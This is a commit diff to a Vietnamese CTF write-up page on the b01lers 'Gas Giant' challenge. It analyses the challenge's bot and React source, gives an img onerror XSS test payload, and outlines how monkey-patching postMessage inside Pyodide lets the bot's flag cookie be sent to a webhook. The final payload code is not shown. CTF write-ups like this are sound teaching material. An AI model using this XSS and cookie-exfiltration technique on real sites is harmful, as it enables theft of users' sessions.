

Before and after one commit to helomyname234/WriteUp-Blog, an MkDocs documentation site: the page built from docs/ctf/boilers/gas-giant.md, in a window 1280 px wide and 1400 px high, scrolled down 442 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/docs/ctf/boilers/gas-giant.md
+++ b/docs/ctf/boilers/gas-giant.md
@@ -1,25 +1,113 @@
 
 
-# CTF Writeup: Gas Giant (Web/Client-side)
+# Gas Giant (Web/Client-side) - b01lers CTF
 
 ## 1. Challenge Description
-Bài toán cung cấp một trình giả lập Jupyter Notebook rút gọn chạy bằng **Pyodide** (Python thực thi trong trình duyệt thông qua WebAssembly). Người dùng có thể upload file `.ipynb`, chia sẻ link và gửi URL cho một con bot (Puppeteer) để kiểm tra. Mục tiêu là lấy được giá trị của cookie `flag` được set trong trình duyệt của bot.
+Website giả lập Jupyter Notebook rút gọn chạy bằng **Pyodide** (Python thực thi trong trình duyệt thông qua WebAssembly).
+Người dùng có thể upload file notebook và trang web sinh ra link notebook để chạy
+Trang web còn có chức năng cho phép người dùng báo cáo link độc hại cho admin
 
 ![Gas_Page](../../assets/images/ctf/b01lers/gas_page.png)
 
 
 ## 2. Vulnerability Analysis
+Phân tích mã nguồn chúng ta thấy có file bot.js, điều này gợi ý có thể sẽ có lỗ hỗng XSS của trang web
+Phân tích mã nguồn bot.js
+```javascript
+export async function visit(url: string) {
+    const browser = await puppeteer.launch({
+        args: ['--no-sandbox', '--disable-gpu', '--disable-setuid-sandbox']
+    });
+    const page = await browser.newPage();
 
-### Frontend (React)
-Kiểm tra mã nguồn frontend tại component `CodeCellOutput`, ta phát hiện lỗi XSS cơ bản thông qua việc sử dụng thuộc tính `dangerouslySetInnerHTML` để hiển thị kết quả HTML từ các cell của notebook:
+    await browser.setCookie({ name: 'flag', value: 'bctf{fake_flag}', domain: 'localhost' });
+
+    console.log('Visiting:', url);
+
+    await page.goto(url);
+
+    // Wait for the run button to load, then run the cell
+    await page.locator('button.cursor-pointer.text-right.px-1').setTimeout(20000).click();
+    await sleep(5000);
+
+    console.log('Done visiting :D')
+}
+```
+Con bot này sẽ chỉ set flag cookie chỉ khi nó truy cập đường dẫn URL từ domain localhost, sau khi truy cập nó sẽ tìm kiếm class `cursor-pointer text-right px-1` và click vào đó
+
+Kiểm tra trong mã html và css, phát hiện được đây là class của nút run cell
+
+```typescript
+export default function StyledNotebook(props: { notebook: Notebook, className: string }) {
+    return (
+        <JupyterNotebook
+            notebook={props.notebook}
+            remarkPlugins={[remarkMath]}
+            ...
+            runButtonClassName="cursor-pointer text-right px-1"
+        />
+    )
+}
+```
+
+Kiểm tra chức năng upload notebook, ta thấy có thể upload file notebook lên và trang web sẽ trả về link của notebook đó, kết hợp với manh mối về bot, có thể suy luận được tồn tại lỗ hỗng XSS khi thực thi code trong cell
+
+Kiểm tra thêm chức năng report link của web, trong mã nguồn, ta thấy nó gọi tới API /report
+
+```javascript
+ const res = await fetch('/report', {
+                        method: 'POST',
+                        body: JSON.stringify({ url }),
+                        headers: { 'Content-Type': 'application/json' }
+                    });
+                    const data = await res.json();
+
+                    if (res.ok) {
+                        setMessage(data.message);
+                        setError('');
+                    } else {
+                        setError(data.message);
+                        setMessage('');
+                    }
+
+```
+API này sẽ gọi con bot truy cập vào đường link đã nhận từ người dùng
+
+```typescript
+import { visit } from './bot.js';
+...
+app.post('/report', async (req, res) => {
+    ...
+    void visit(url).catch((e) => console.log('Visit failed:', e));
+    res.status(200).send({ message: 'The admin is visiting your URL.' })
+})
+    ...
+```
+Đoán được chuỗi tấn công có thể sẽ xảy ra như sau: Khai thác lỗ hỗng XSS từ Cell của notebook -> Upload Notebook chứa 1 cell duy nhất có đoạn mã thực thi việc gửi flag về server của attacker -> Lấy link notebook -> Report link cho admin -> Bot truy cập vào link -> Lấy flag từ server
+
+Câu hỏi đặt ra bây giờ là làm sao để tìm kiếm lỗ hỗng XSS của cell trong notebook và khai thác như thế nào ?
+
+Kiểm tra mã nguồn frontend tại component `CodeCellOutput`, ta phát hiện lỗi XSS thông qua việc sử dụng thuộc tính `dangerouslySetInnerHTML` để hiển thị kết quả HTML từ các cell của notebook:
 
 ```javascript
 if (trusted && mimes['text/html']) return (
     <div dangerouslySetInnerHTML={{ __html: mimes['text/html'] }} />
 )
 ```
+Ở đây có sử dụng biến trusted để kiểm tra tính an toàn của nội dung HTML, nếu trusted là true thì sẽ hiển thị nội dung HTML, ngược lại thì sẽ không hiển thị, tuy nhiên website lại để giá trị mặc định cho trusted là true
 
-### Sandbox (Web Worker - Pyodide)
+Thử insert mã XSS thông qua việc sử dụng thuộc tính `dangerouslySetInnerHTML` để hiển thị kết quả HTML từ các cell của notebook:
+
+```python
+from IPython.display import display, HTML
+
+# Payload test XSS bằng thẻ img (khi ảnh lỗi sẽ chạy alert)
+test_payload = '<img src=x onerror="alert(\'XSS')">'
+
+display(HTML(test_payload))
+
+```
+
 Tuy nhiên, tác giả đã cài đặt một cơ chế phòng thủ bên trong Web Worker (nơi thực thi Python). Mọi kết quả từ Python trả về (`execute_result` và `display_data`) đều bị ghi đè bằng một thông báo an toàn:
 
 ```javascript
@@ -32,28 +120,17 @@ const publishExecutionResult = (prompt_count, data, metadata) => {
     });
 };
 ```
-
 Cơ chế này ngăn chặn việc in trực tiếp mã HTML/JS độc hại từ Python ra frontend.
 
 ## 3. Exploitation Strategy
 
-> **Ý tưởng cốt lõi:** Thay vì cố gắng bypass sandbox ở phía Python, ta tấn công ngay tại **điểm trung gian** — hàm `postMessage` dùng để truyền dữ liệu từ Web Worker ra ngoài. Nếu ta kiểm soát được luồng dữ liệu tại đây, ta có thể "tráo hàng" từ output hợp lệ sang payload XSS mà lớp bảo vệ của tác giả không hay biết.
+> **Ý tưởng bypass:** Ta cần tìm cách nào đó có thể thay đổi kết quả đầu ra, hoặc một cách nào đó để tác động vào hàm postMessage, một kĩ thuật có thể làm được điều này là Monkey Patching
 
-Chuỗi tấn công diễn ra theo 3 giai đoạn liên tiếp:
+Monkey Patching là một kĩ thuật lập trình cho phép chúng ta thay đổi, tác động tới mã nguồn của class, thư viện, hoặc module trong quá trình thực thi mà không cần cập nhật tới mã nguồn gốc
 
-```
-Python (Pyodide)
-    └─► js.eval() ─► Monkey Patch self.postMessage
-                          │
-                          ▼
-              Web Worker gửi msg bị đánh tráo
-                          │
-                          ▼
-              React nhận HTML độc hại → dangerouslySetInnerHTML
-                          │
-                          ▼
-              <img onerror> kích hoạt → đánh cắp cookie bot
-```
+Về cơ bản, chúng ta có thể định nghĩa phương thức mới với hành vi khác phương thức cũ và gán phương thức mới thay thế phương thức cũ, để trong quá trình thực thi thì phương thức mới sẽ thực thi đè lên phương thức cũ
+
+Các bước để bypass và xây dựng payload như sau
 
 ### Bước 1: Monkey Patching `postMessage`
 Vì mã Python chạy trong cùng môi trường Web Worker với script bảo mật của tác giả, chúng ta có thể sử dụng thư viện `js` của Pyodide để can thiệp vào Javascript global (`self`).
@@ -68,6 +145,7 @@ Bot cấu hình cookie `flag` với domain là `localhost`. Do đó, ta phải l
 
 ## 4. Final Payload
 
+Truy cập vào webhook để lấy đường link url để "hứng" flag
 Tạo một file `exploit.ipynb` với một cell duy nhất chứa nội dung sau:
 
 ```python
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -55,6 +55,7 @@ nav:
       - Bandit Level 1: ctf/overthewire/bandit-1.md
       - Bandit Level 2: ctf/overthewire/bandit-2.md
       - Bandit Level 3: ctf/overthewire/bandit-3.md
+      - Bandit Level 4: ctf/overthewire/bandit-4.md
       - Overview: ctf/overthewire/index.md
     - BoilersCTF:
       - Gas Giant: ctf/boilers/gas-giant.md
````
Also changed, not shown: docs/ctf/boilers/yml.md (+1 -1 lines), docs/ctf/overthewire/bandit-4.md (added, +55 -0 lines), docs/assets/images/ctf/overthewire/bandit4/file_cmd.png (added), docs/assets/images/ctf/overthewire/bandit4/ls_lah.png (added), docs/assets/images/ctf/overthewire/bandit4/res.png (added).
